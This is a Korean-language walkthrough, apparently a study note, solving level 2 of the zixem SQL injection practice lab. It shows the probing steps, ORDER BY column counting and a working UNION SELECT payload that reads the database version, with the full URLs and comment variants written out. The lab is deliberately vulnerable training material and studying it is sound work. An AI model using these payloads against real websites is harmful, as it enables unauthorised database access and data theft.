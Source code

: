 # <p align="center">💉level 2</p>
> -문제 풀이
>> - 문제 조건
>> 1. zixem은 내가 원하는 데이터를 띄우는게 목적이다.
>> ##### ㅤㅤ※우리가 원하는 데이터는 SQL의 버전으로 하겠다. 
>
>> - 문제 풀이
>> 1. 일단 sqli가 되는 환경인지 알아보기 위해 에러 유발인자를 넣어본다.
>> 2. sqli가 되는 환경인걸 확인했으면 order by를 사용해 컬럼의 갯수 확인한다.<br/>
>>https://www.zixem.altervista.org/SQLi/level2.php?showprofile=4 order by 10000-- (X)<br/>
>>https://www.zixem.altervista.org/SQLi/level2.php?showprofile=4 order by 0-- (X)<br/>
>> -> 아무것도 표시되지 않음
>> 3. 2가지의 조건을 바꿔준다. 주석과 싱글쿼터<br/>
>>https://www.zixem.altervista.org/SQLi/level2.php?showprofile=4' order by 3--+(X)<br/>
>> -> 이제 에러메세지 출력<br/>
>>https://www.zixem.altervista.org/SQLi/level2.php?showprofile=4' order by 4--+(O)<br/>
>> -> level1과 다르게 정확히 맞춰야 가능
>> 4. 이제 union select가 가능한지 보고 원하는 값 입력해준다.
>>https://www.zixem.altervista.org/SQLi/level2.php?showprofile=4%27%20union%20select%20version(),2,3,4--+-<br/>
>
>> - 추가 설명<br/>
>> 1. level 1과 다르게 사이트를 벗겨주는게 따로 필요하지 않았다.
>> 2. 주석으로는 %23, -- -, --+, --+- 등이 가능